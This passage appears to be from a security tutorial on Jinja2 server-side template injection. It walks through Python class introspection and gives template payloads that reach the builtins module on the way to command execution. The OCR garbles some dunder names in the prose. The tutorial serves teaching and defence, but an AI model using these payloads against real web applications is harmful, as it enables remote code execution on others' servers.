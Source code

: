 To better understand what’s happening here, let’s break down this payload a bit: `[].**class**.**bases**[0].**subclasses**()`

It first creates an empty list and calls its **class** attribute, which refers to the class the instance belongs to, list: `[].**class**`

Then you can use the **bases** attribute to refer to the base classes of the list class: `[].**class**.**bases**`

This attribute will return a tuple (which is just an ordered list in Python) of all the base classes of the class list. A base class is a class that the current
class is built from; list has a base class called object. Next, we need to access the object class by referring to the first item in the tuple: `[].**class**.**bases**[0]`

Finally, we use **subclasses**() to refer to all the subclasses of the class: `[].**class**.**bases**[0].**subclasses**()`

Now, we simply need to look for a method in one of these classes that we can use for command execution. Let’s explore one possible way of executing code. **Not all the templates have the same classes**

The **import** function, which can be used to import modules, is one of Python’s built-in functions. But since Jinja2 is blocking its direct access, you
will need to access it via the **builtins module**. This module provides direct access to all of Python’s built-in classes and functions. Most Python modules
have **builtins** as an attribute that refers to the built-in module, so you can recover the builtins module by referring to the **builtins** attribute.
Within all the subclasses in `[].**class**.**bases**[0].**subclasses**()`, there is a class named `catch_warnings`. This is the subclass we’ll use to construct our exploit. 

To find the `catch_warnings` subclass, inject a loop into the template code to look for it:

```python
{% for x in [].__class__.__bases__[0].__subclasses__() %} ##loop goes through all the classes in [].__class__.__bases__[0].__subclasses__()
	{% if 'catch_warnings' in x.__name__ %} ## finds the one with the string catch_warnings in its name
	{{x()}} ## Then it instantiates an object of that class
{%endif%}
{%endfor%}
```

Finally, we use the reference to the module to refer to the builtins module:

```python
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__}}
{%endif%}
{%endfor%}
```

You should see a list of built-in classes and functions returned, including the function **import**:

```python
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\
nNoteworthy: None is the 'nil' object; Ellipsis represents '...' in slices.", '__package__': 
'', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name=
'builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in 
function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-infunction abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': 
<built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function 
breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 
'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': 
<built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function 
eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': 
<built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in 
function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': 
<built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function 
```